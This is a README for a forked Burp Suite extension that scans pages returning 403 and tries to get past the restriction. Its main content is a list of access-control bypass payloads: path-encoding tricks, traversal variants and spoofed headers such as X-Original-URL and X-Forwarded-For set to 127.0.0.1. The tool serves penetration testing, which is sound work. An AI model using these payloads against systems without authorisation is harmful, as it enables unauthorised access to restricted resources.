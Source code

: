 # 403Bypasser
An burpsuite extension to bypass 403 restricted directory. By using PassiveScan (default enabled), each 403 request will be **automatically** scanned by this extension, so just add to burpsuite and enjoy.

this forked repository adds new payloads to test.
Original: https://github.com/sting8k/BurpSuite_403Bypasser

Payloads: 
$1: HOSTNAME
$2: PATH
```
$1/$2
$1/%2e/$2
$1/$2/.
$1//$2//
$1/./$2/./
$1/$2anything -H "X-Original-URL: /$2" 
$1/$2 -H "X-Custom-IP-Authorization: 127.0.0.1" 
$1 -H "X-Rewrite-URL: /$2"
$1/$2 -H "Referer: /$2"
$1/$2 -H "X-Originating-IP: 127.0.0.1"
$1/$2 -H "X-Forwarded-For: 127.0.0.1"
$1/$2 -H "X-Remote-IP: 127.0.0.1"
$1/$2 -H "X-Client-IP: 127.0.0.1"
$1/$2 -H "X-Host: 127.0.0.1"
$1/$2 -H "X-Forwarded-Host: 127.0.0.1"
$1/$2%20/
$1/%20$2%20/
$1/$2?
$1/$2???
$1/$2//
$1/$2/
$1/$2/.randomstring
$1/$2..;/

### New Payloads
$1/$2%
$1/$2%09/
$1/$2../
$1/$2..%2f
$1/$2..%00/
$1/$2..%0d/
$1/$2..%5c
$1/$2..%ff/
$1/$2.%2e/
$1/$2?radomstring
```

## Installation

`BurpSuite -> Extender -> Extensions -> Add -> Extension Type: Python -> Select file: 403bypasser.py -> Next till Finish`

## Screenshot
<img src="ScreenShot.png" width="450"/>

## References:
* [https://twitter.com/iam_j0ker/status/1324354024657711106?s=20](https://twitter.com/iam_j0ker/status/1324354024657711106?s=20)
* [https://twitter.com/jae_hak99/status/1297556269960540161?s=20](https://twitter.com/jae_hak99/status/1297556269960540161?s=20)
* [https://twitter.com/SalahHasoneh1/status/1296572143141031945](https://twitter.com/SalahHasoneh1/status/1296572143141031945)
* [https://twitter.com/lobuhisec/status/1329705441883017218](https://twitter.com/lobuhisec/status/1329705441883017218)
